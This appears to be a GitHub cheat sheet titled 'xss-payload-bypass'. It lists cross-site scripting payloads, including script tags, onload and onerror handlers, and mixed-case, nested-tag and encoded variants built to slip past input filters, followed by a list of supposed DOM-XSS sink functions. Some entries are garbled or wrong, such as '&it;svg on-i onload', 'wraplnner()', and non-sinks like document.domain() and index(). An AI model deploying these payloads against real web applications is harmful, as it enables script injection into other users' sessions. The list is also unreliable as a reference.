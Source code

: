 # xss-payload-bypass
<script>alert(1)</script>
#<script>alert(1)</script>
</select><body onload=alert(1)>
"><img src=x onerror=``alert;a(1);.jpg>
&it;svg on-i onload=alert(1)
<sCrIpT>alert(1)<ScRiPt>
<script>%0d%0aalert(1)</script>
<scr<script>ipt>alert(1);</scr</script>ipt>
sink DOM-XSS :
document.write()
document.writeln()
document.domain()
element.innerHTML()
element.outerHTML()
element.insertadjacentHTML()
element.onevent()
eval()
add()
after()
append()
animate()
insertafter()
insertbefore()
before()
html()
prepend()
replaceAll()
replacewith()
wrap()
wrapAll()
wraplnner()
has()
init()
index()
jQuery.parseHTML()
constructor()
$.parseHTML()
